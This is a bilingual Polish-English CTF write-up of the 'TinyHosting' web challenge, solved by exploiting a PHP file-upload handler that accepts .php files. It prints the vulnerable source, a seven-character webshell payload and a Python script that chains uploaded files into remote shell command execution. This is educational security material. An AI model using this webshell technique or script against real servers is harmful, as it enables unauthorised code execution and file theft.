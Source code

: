## TinyHosting (web, 250p, 71 solves)

> A new file hosting service for very small files. could you pwn it?
> 
> http://136.243.194.53/

### PL
[ENG](#eng-version)

Pod http://136.243.194.53/ znajduje się formularz umożliwiający wysyłanie plików na serwer.

W kodzie HTML znajduje się komentarz:

    <!-- <a href="./?src=">src</a>-->

Po dodaniu do url `?src=1` możemy zobaczyć kod strony:

	<?php
		$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
		if(!is_dir($savepath)){
		    $oldmask = umask(0);
		    mkdir($savepath, 0777);
		    umask($oldmask);
		    touch($savepath."/index.html");
		}
		if((@$_POST['filename']) && (@$_POST['content']) ){
		    $fp = fopen("$savepath".$_POST['filename'], 'w');
		    fwrite($fp, substr($_POST['content'],0,7) );
		    fclose($fp);
		    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
		}
	?>

Skrypt pozwala na tworzenie plików z rozszerzeniem .php. Treść jest jednak ucinana do 7 znaków. `<?php ?` generuje `Internal Server Error`.

Używająć krótkiego tagu startowego i pomijająć końcowy możemy wykonać jednoliterowe polecenie: `<?=\`*\`;`

Jeżeli stworzymy pliki o nazwach `bash` i `bash2`, `*` rozwinie się do `bash bash2 index.html`. Możemy w ten sposób wykonywać 7 znakowe skrypty shellowe:

	import requests
	import re

	url = "http://136.243.194.53/"
	user_agent = "xxx"

	t = requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"zzz.php", "content":"<?=`*`;"}).text
	[path] = re.findall('files.*/zzz.php', t)

	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash", "content":'xxx'})
	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash2", "content":'ls /'})
	r = requests.get(url+path)

	print r.text

W głównym katalogu znajduje się plik `file_you_want`. Możemy go pobrać poleceniem `cat /f*`. W pliku znajduje się flaga:

    32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r

### ENG version

Under http://136.243.194.53/ there is a form which allows uploading files.

In page source there is a comment:

    <!-- <a href="./?src=">src</a>-->

After adding `?src=1` to the url php source is printed:

	<?php
		$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
		if(!is_dir($savepath)){
		    $oldmask = umask(0);
		    mkdir($savepath, 0777);
		    umask($oldmask);
		    touch($savepath."/index.html");
		}
		if((@$_POST['filename']) && (@$_POST['content']) ){
		    $fp = fopen("$savepath".$_POST['filename'], 'w');
		    fwrite($fp, substr($_POST['content'],0,7) );
		    fclose($fp);
		    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
		}
	?>

Page doesn't block creating files with .php extension. The content is limited to 7 chars though. `<?php ?` generates `Internal Server Error`. 

By using short start tags and ommiting end tag it's possible to execute single char shell command:  `<?=\`*\`;`

If we create two files: `bash` and `bash2`, `*` will expand to: `bash bash2 index.html`. This way we can execute 7 char shell scripts:

	import requests
	import re

	url = "http://136.243.194.53/"
	user_agent = "xxx"

	t = requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"zzz.php", "content":"<?=`*`;"}).text
	[path] = re.findall('files.*/zzz.php', t)

	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash", "content":'xxx'})
	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash2", "content":'ls /'})
	r = requests.get(url+path)

	print r.text

In root directory there is a file named `file_you_want`. We can get its contents with `cat /f*`. This file contains the flag:

    32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r

